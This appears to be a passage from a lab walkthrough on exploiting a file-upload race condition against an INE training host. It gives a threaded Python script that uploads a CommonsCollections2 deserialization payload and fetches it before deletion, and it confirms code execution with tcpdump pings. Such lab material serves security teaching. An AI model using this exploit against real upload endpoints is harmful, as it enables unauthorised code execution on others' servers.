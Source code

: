 To sequentially run them and then use "read file" immediately, we need to implement the concept of threading. If we simply run the two functions above one after the other, readfile() will wait for upload() until it finishes. By this time, the target file will be gone.

Threading will simply start upload() in another thread which will allow readfile() to run without waiting for the response of upload().

```python
for payload in payloads:
    x=threading.Thread(target=upload, args=(payload,))
    x.start()
    readfile()
    time.sleep(2)
```



Before running the exploit check if you have started a listener to detect pings - e.g. Wireshark or tcpdump.

```bash
tcpdump -i eth1 icmp
```



```python
import requests
import time
import threading
def readfile(filename):
    url = "http://demo.ine.local/upload/index.php?sent=OK"
    r = requests.get(url)
    print("[+] Used filename: " + filename)
    print(r.text)
    print("\n")
def upload(filename):
    url = "http://demo.ine.local/upload/upload.php"
    files ={'uploaded_file': open(filename, 'rb')}
    r = requests.post(url, files=files)
payloads = [
'CommonsCollections2'
]
for payload in payloads:
    x=threading.Thread(target=upload, args=(payload,))
    x.start()
    readfile(payload)
    time.sleep(2)
```



 Execute the exploit code by the following command.

```
python exploit.py
```


